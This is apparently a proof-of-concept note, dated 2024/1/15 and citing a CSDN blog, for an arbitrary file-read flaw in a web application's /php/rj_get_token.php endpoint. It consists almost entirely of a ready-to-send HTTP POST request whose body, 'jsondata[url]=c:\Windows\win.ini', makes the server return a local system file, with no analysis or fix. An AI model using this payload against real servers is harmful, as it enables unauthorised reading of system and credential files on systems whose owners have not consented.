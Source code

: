 # spon_rj_get_token_fileread

2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135504212?spm=1001.2014.3001.5502
@2
```
POST /php/rj_get_token.php HTTP/1.1
Host: your_ip
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

jsondata[url]=c:\Windows\win.ini

```
